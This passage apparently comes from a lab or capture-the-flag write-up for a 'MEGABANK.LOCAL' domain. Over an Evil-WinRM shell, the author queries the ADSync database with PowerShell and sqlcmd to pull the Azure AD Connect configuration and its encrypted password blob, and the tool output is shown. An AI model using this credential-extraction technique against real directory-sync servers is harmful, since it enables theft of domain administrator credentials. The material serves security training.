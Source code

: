     
    
    $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
    $reader = $cmd.ExecuteReader()
    $reader.Read() | Out-Null
    $config = $reader.GetString(0)
    $crypted = $reader.GetString(1)
    $reader.Close()
    

Again, I can do that same query with `sqlcmd`, but it doesn’t print the full
results:

    
    
    *Evil-WinRM* PS C:\> sqlcmd -d ADSync -Q 'SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = "AD"'
    private_configuration_xml                                                                                                                                                                                                                                        encrypted_configuration
    ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
    <adma-configuration>
     <forest-name>MEGABANK.LOCAL</forest-name>
     <forest-port>0</forest-port>
     <forest-guid>{00000000-0000-0000-0000-000000000000}</forest-guid>
     <forest-login-user>administrator</forest-login-user>
     <forest-login-domain>MEGABANK.LOCAL 8AAAAAgAAABQhCBBnwTpdfQE6uNJeJWGjvps08skADOJDqM74hw39rVWMWrQukLAEYpfquk2CglqHJ3GfxzNWlt9+ga+2wmWA0zHd3uGD8vk/vfnsF3p2aKJ7n9IAB51xje0QrDLNdOqOxod8n7VeybNW/1k+YWuYkiED3xO8Pye72i6D9c5QTzjTlXe5qgd4TCdp4fmVd+UlL/dWT/mhJHve/d9zFr2EX5r5+1TLbJCzYUHqFLvvpCd1rJEr68g
    
    (1 rows affected)
    

I found [this stackoverflow
post](https://stackoverflow.com/questions/24345345/how-to-prevent-sqlcmd-
truncation-with-for-xml-path-query-result) which showed `-y 0` worked to get
the full result:

    
    
    *Evil-WinRM* PS C:\> sqlcmd -y0 -d ADSync -Q 'SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = "AD"'
    <adma-configuration>
     <forest-name>MEGABANK.LOCAL</forest-name>
     <forest-port>0</forest-port>
     <forest-guid>{00000000-0000-0000-0000-000000000000}</forest-guid>
     <forest-login-user>administrator</forest-login-user>
     <forest-login-domain>MEGABANK.LOCAL</forest-login-domain>
     <sign-and-seal>1</sign-and-seal>
     <ssl-bind crl-check="0">0</ssl-bind>
     <simple-bind>0</simple-bind>
     <default-ssl-strength>0</default-ssl-strength>
     <parameter-values>
      <parameter name="forest-login-domain" type="string" use="connectivity" dataType="String">MEGABANK.LOCAL</parameter>
      <parameter name="forest-login-user" type="string" use="connectivity" dataType="String">administrator</parameter>
      <parameter name="password" type="encrypted-string" use="connectivity" dataType="String" encrypted="1" />
      <parameter name="forest-name" type="string" use="connectivity" dataType="String">MEGABANK.LOCAL</parameter>
      <parameter name="sign-and-seal" type="string" use="connectivity" dataType="String">1</parameter>